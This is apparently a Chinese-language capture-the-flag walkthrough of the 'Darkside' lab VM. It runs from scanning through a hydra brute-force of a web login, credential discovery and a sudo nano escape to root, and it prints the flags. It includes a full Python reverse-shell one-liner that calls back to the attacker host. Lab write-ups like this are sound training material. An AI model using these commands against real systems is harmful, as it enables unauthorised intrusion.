

# Darkside

:::note

[Linux VM] [Tested on VirtualBox] created by || boyras200

⏲️ Release Date // 2023-10-30

✔️ MD5 // 6d89b7cfa480c017eb8fca600469b8a7

☠ Root // 100

💀 User // 98

📝Notes //
Are you ready to enter the darkside?

:::

## 靶机启动

靶机 IP

```plaintext
192.168.56.107
```

## nmap 信息搜集

```plaintext
Nmap scan report for 192.168.56.107 (192.168.56.107)
Host is up (0.00055s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u2 (protocol 2.0)
| ssh-hostkey:
|   3072 e0:25:46:8e:b8:bb:ba:69:69:1b:a7:4d:28:34:04:dd (RSA)
|   256 60:12:04:69:5e:c4:a1:42:2d:2b:51:8a:57:fe:a8:8a (ECDSA)
|_  256 84:bb:60:b7:79:5d:09:9c:dd:24:23:a3:f2:65:89:3f (ED25519)
80/tcp open  http    Apache httpd 2.4.56 ((Debian))
|_http-title: The DarkSide
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-server-header: Apache/2.4.56 (Debian)
```

## web 服务

尝试目录爆破，得到以下信息

```plaintext
[09:34:48] 301 -  317B  - /backup  ->  http://192.168.56.107/backup/
[09:34:48] 200 -  937B  - /backup/
[09:35:02] 200 -  683B  - /index.php
[09:35:02] 200 -  683B  - /index.php/login/
```

访问 `/backup/`，得到

```plaintext title="http://192.168.56.107/backup/vote.txt"
rijaba: Yes
xerosec: Yes
sml: No
cromiphi: No
gatogamer: No
chema: Yes
talleyrand: No
d3b0o: Yes

Since the result was a draw, we will let you enter the darkside, or at least temporarily, good luck kevin.
```

在其中，可以得到以下用户名

```plaintext
rijaba
xerosec
sml
cromiphi
gatogamer
chema
talleyrand
d3b0o
kevin
```

根据提示，针对 `kevin` 用户发起攻击

```shell
┌─[randark@parrot]─[~]
└──╼ $hydra -v -V -l kevin -P /usr/share/wordlists/rockyou.txt -I 192.168.56.107 http-post-form "/:user=kevin&pass=^PASS^:invalid"
......
[80][http-post-form] host: 192.168.56.107   login: kevin   password: iloveyou
```

得到以下凭据

```plaintext
kevin:iloveyou
```

登录之后，得到这份信息

```plaintext
kgr6F1pR4VLAZoFnvRSX1t4GAEqbbph6yYs3ZJw1tXjxZyWCC
```

使用 [Cyberchef](https://gchq.github.io/CyberChef) 的 magic 模块尝试自动解码



得到

```plaintext
sfqekmgncutjhbypvxda.onion
```

尝试访问这个 Tor 链接，发现并不能访问，联想之前的链接，尝试访问 `http://192.168.56.107/sfqekmgncutjhbypvxda.onion/`

```html
<!DOCTYPE html>
<html>
<head>
    <title>Which Side Are You On?</title>
    <style>
        body {
            background-color: black;
            color: white;
            font-size: 24px;
            margin: 0;
        }
    </style>
</head>
<body>
    <div>
        <p>Which Side Are You On?</p>
    </div>

    <script>
        var sideCookie = document.cookie.match(/(^|)side=([^;]+)/);
        if (sideCookie && sideCookie[2] === 'darkside') {
            window.location.href = 'hwvhysntovtanj.password';
        }
    </script>


</body>
</html>
```

分析网页源码，即可解析其中的 Javascript 逻辑

最后可以得到这份信息

```plaintext title="http://192.168.56.107/sfqekmgncutjhbypvxda.onion/hwvhysntovtanj.password"
kevin:ILoveCalisthenics
```

## User - kevin

```shell
┌─[randark@parrot]─[~]
└──╼ $pwncat-cs kevin@192.168.56.107
[16:42:59] Welcome to pwncat 🐈!
Password: *****************
[16:43:02] 192.168.56.107:22: normalizing shell path
[16:43:03] 192.168.56.107:22: registered new host w/ db
(local) pwncat$ back
(remote) kevin@darkside:/home/kevin$ whoami
kevin
```

### flag - user

```shell
(remote) kevin@darkside:/home/kevin$ cat user.txt
UnbelievableHumble
```

### 提权探测

```plaintext title="find / -perm -u=s -type f 2>/dev/null"
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/umount
/usr/bin/mount
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/su
/usr/bin/sudo
```

```plaintext title="sudo -l"
Sorry, user kevin may not run sudo on darkside.
```

```plaintext title="getcap -r / 2>/dev/null"
/usr/bin/ping cap_net_raw=ep
```

### 读取命令行历史

```shell title="/home/kevin/.history"
ls -al
hostname -I
echo "Congratulations on the OSCP Xerosec"
top
ps -faux
su rijaba
ILoveJabita
ls /home/rijaba
```

获得一个凭据

```plaintext
rijaba:ILoveJabita
```

## User - rijaba

```shell
┌─[randark@parrot]─[~]
└──╼ $pwncat-cs rijaba@192.168.56.107
[17:02:02] Welcome to pwncat 🐈!
Password: ***********
[17:02:05] 192.168.56.107:22: normalizing shell path
[17:02:06] 192.168.56.107:22: registered new host w/ db
(local) pwncat$ back
(remote) rijaba@darkside:/home/rijaba$ whoami
rijaba
```

### 提权探测

```plaintext title="sudo -l"
Matching Defaults entries for rijaba on darkside:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User rijaba may run the following commands on darkside:
    (root) NOPASSWD: /usr/bin/nano
```

尝试提权

```shell
(remote) rijaba@darkside:/home/rijaba$ sudo /usr/bin/nano
```

然后 `Ctrl` + `T`，执行指令

```shell
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.56.102",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
```

成功收到回连的shell

## User - root

```shell
┌─[randark@parrot]─[~]
└──╼ $pwncat-cs -lp 9999
[17:07:03] Welcome to pwncat 🐈!
[17:07:34] received connection from 192.168.56.107:33802
[17:07:34] 192.168.56.107:33802: registered new host w/ db
(local) pwncat$ back
(remote) root@darkside:/home/rijaba# whoami
root
```

### flag - root

```shell
(remote) root@darkside:/root# cat root.txt 
  ██████╗░░█████╗░██████╗░██╗░░██╗░██████╗██╗██████╗░███████╗
  ██╔══██╗██╔══██╗██╔══██╗██║░██╔╝██╔════╝██║██╔══██╗██╔════╝
  ██║░░██║███████║██████╔╝█████═╝░╚█████╗░██║██║░░██║█████╗░░
  ██║░░██║██╔══██║██╔══██╗██╔═██╗░░╚═══██╗██║██║░░██║██╔══╝░░
  ██████╔╝██║░░██║██║░░██║██║░╚██╗██████╔╝██║██████╔╝███████╗
  ╚═════╝░╚═╝░░╚═╝╚═╝░░╚═╝╚═╝░░╚═╝╚═════╝░╚═╝╚═════╝░╚══════╝


youcametothedarkside
```
